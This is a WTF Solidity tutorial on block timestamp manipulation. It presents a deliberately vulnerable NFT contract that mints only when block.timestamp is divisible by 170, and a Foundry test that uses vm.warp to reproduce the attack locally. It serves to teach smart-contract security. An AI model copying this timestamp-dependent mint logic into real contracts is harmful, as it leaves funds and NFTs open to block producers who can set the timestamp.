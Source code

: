```yaml
---
title: S14. Block Timestamp Manipulation
tags:
- solidity
- security
- timestamp
---
```


# WTF Solidity S14. Block Timestamp Manipulation

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

-----

In this lesson, we will introduce the block timestamp manipulation attack on smart contracts and reproduce it using Foundry. Before the merge, Ethereum miners can manipulate the block timestamp. If the pseudo-random number of the lottery contract depends on the block timestamp, it may be attacked.

## Block Timestamp

Block timestamp is a `uint64` value contained in the Ethereum block header, which represents the UTC timestamp (in seconds) when the block was created. Before the merge, Ethereum adjusts the block difficulty according to the computing power, so the block time is not fixed, and an average of 14.5s per block. Miners can manipulate the block timestamp; after the merge, it is changed to a fixed 12s per block, and the validator cannot manipulate the block timestamp.

In Solidity, developers can get the current block timestamp through the global variable `block.timestamp`, which is of type `uint256`.

## Vulnerable Contract Example

This example is modified from the contract in [WTF Solidity S07. Bad Randomness](https://github.com/AmazingAng/WTF-Solidity/tree/main/32_Faucet). We changed the condition of the `mint()` minting function: it can only be successfully minted when the block timestamp can be divided by 170:

```solidity
contract TimeManipulation is ERC721 {
    uint256 totalSupply;

    // Constructor: Initialize the name and symbol of the NFT collection
    constructor() ERC721("", ""){}

    // Mint function: Only mint when the block timestamp is divisible by 170
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // mint
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## Reproduce on Foundry

Attackers only need to manipulate the block timestamp and set it to a number that can be divided by 170, and they can successfully mint NFTs. We choose Foundry to reproduce this attack because it provides cheatcode to modify the block timestamp. If you are not familiar with Foundry/cheatcode, you can read the [Foundry tutorial](https://github.com/AmazingAng/WTF-Solidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md) and [Foundry Book](https://book.getfoundry.sh/forge/cheatcodes).

1. Create a `TimeManipulation` contract variable `nft`.
2. Create a wallet address `alice`.
3. Use the cheatcode `vm.warp()` to change the block timestamp to 169, which cannot be divided by 170, and the minting fails.
4. Use the cheatcode `vm.warp()` to change the block timestamp to 17000, which can be divided by 170, and the minting succeeds.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.4;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/TimeManipulation.sol";

contract TimeManipulationTest is Test {
    TimeManipulation public nft;

    // Computes address for a given private key
    address alice = vm.addr(1);

    function setUp() public {
        nft = new TimeManipulation();
    }

    // forge test -vv --match-test  testMint
    function testMint() public {
        console.log("Condition 1: block.timestamp % 170 != 0");
        // Set block.timestamp to 169
        vm.warp(169);
        console.log("block.timestamp: %s", block.timestamp);
        // Sets all subsequent calls' msg.sender to be the input address
        // until `stopPrank` is called
        vm.startPrank(alice);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));

        // Set block.timestamp to 17000
        console.log("Condition 2: block.timestamp % 170 == 0");
        vm.warp(17000);
        console.log("block.timestamp: %s", block.timestamp);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));
        vm.stopPrank();
    }
}

```

After installing Foundry, start a new project and install the openzeppelin library by entering the following command on the command line:

```shell
forge init TimeMnipulation
cd TimeMnipulation
forge install Openzeppelin/openzeppelin-contracts
```

Copy the code of this lesson to the `src` and `test` directories respectively, and then start the test case with the following command:

```shell
forge test -vv --match-test testMint
```

The test result is as follows:

```shell
Running 1 test for test/TimeManipulation.t.sol:TimeManipulationTest
[PASS] testMint() (gas: 94666)
Logs:
  Condition 1: block.timestamp % 170 != 0
  block.timestamp: 169
  alice balance before mint: 0
  alice balance after mint: 0
  Condition 2: block.timestamp % 170 == 0
  block.timestamp: 17000
  alice balance before mint: 0
  alice balance after mint: 1

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```

We can see that when we modify `block.timestamp` to 17000, the minting is successful.

## Summary

In this lesson, we introduced the block timestamp manipulation attack on smart contracts and reproduced it using Foundry. Before the merge, Ethereum miners can manipulate the block timestamp. If the pseudo-random number of the lottery contract depends on the block timestamp, it may be attacked. After the merge, Ethereum changed to a fixed 12s per block, and the validator cannot manipulate the block timestamp. Therefore, this type of attack will not occur on Ethereum, but it may still be encountered on other public chains.